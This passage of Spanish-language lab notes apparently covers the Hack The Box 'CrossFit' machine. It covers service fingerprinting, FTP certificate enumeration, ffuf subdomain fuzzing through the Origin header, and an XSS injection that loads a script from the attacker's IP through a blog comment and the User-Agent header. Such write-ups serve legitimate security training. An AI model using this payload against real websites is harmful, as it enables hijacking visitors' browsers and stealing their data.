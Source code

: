 Si lanzamos un **whatweb** sobre el aplicativo web, podemos ver las siguientes tecnologías por detrás corriendo:
```ruby
# whatweb 10.10.10.208
http://10.10.10.208 [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.10.10.208], Title[Apache2 Debian Default Page: It works], UncommonHeaders[access-control-allow-credentials]
```

-----------------------
#### FTP SSL Certificate Enumeration
Vemos que el puerto **21 - FPT** tiene **TLS** en sus cabeceras. podemos enumera el certificado asi como enumeramos el certificado del puerto **443** solo que añadiendo unos parametros extras al comando:
```
openssl s_client -connect ip:puerto -starttls ftp
```

Podemos ver el siguiente dominio en la respuesta:

![[Pasted image 20230701085315.png]]

Podemos contemplar el subdominio en el */etc/hosts* para enumerar por subdominios o para ver otra respuesta en la pagina en caso de que se este aplicando Virtual Hosting.
Si visitamos la pagina web, vemos que de primera no vemos absolutamente nada, sin embargo, si accedemos al subdominio en contrado podemos observar una pagina web de un gimnasio:
![[Pasted image 20230701085418.png]]

-------
#### XSS Injection

Al final de la pagina, vemos un formulario de contacto, podemos crear una petición con codigo **javascript** para indicar que se descargue un recurso desde nuestra maquina:
```html
<script src="http://10.10.14.30"></script>
```

Y vemos que no recibimos ninguna petición **GET**. En el apartado de **BLOG** vemos que hay otro formulario para dejar un comentaria, podemos intentar lo mismo que intentamos anter para ver si recibimos una petición a nuestro equipo. Al hacer esto y mandarlo, vemos que se nos genera un mensaje de alerta el cual nos dice que van a generar un reporte con la información de nuestro navegador e **IP**:
![[Pasted image 20230701085635.png]]

Abrirmos el **BurSuite** para pasar la petición al **repeter** y hacer algunas pruebas en las cabeceras dado que se nos informa que se genera un reporte con nuestros datos de navegador e ip.
Întentamos primero colocando la inyeción en el **User-Agent**:
![[Pasted image 20230701090851.png]]

Y esta vez si nos llega una peticón **GET** a nuestro servidor:
![[Pasted image 20230701090917.png]]

-----------
#### Subdomain Enumeration through the Origin Header [Access-Control-Allow-Origin]  
Vemos que en la respuesta del servidor hay una cabecera de nombre **Access-Control-Allow-Origin** que cuando nuestro **Origin** no es valido simplemente desaparece. Podemos aprovecharnos de esto para enumerar más subdominios pero ahora con **ffuf** por que este nos permite filtrar por este tipo de cabeceras:
```
# ffuf -u http://10.10.10.10 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -ignore-body -mr "Access-Control-Allow-Origin" -H 'Origin: http://FUZZ.crossfit.htb'
```
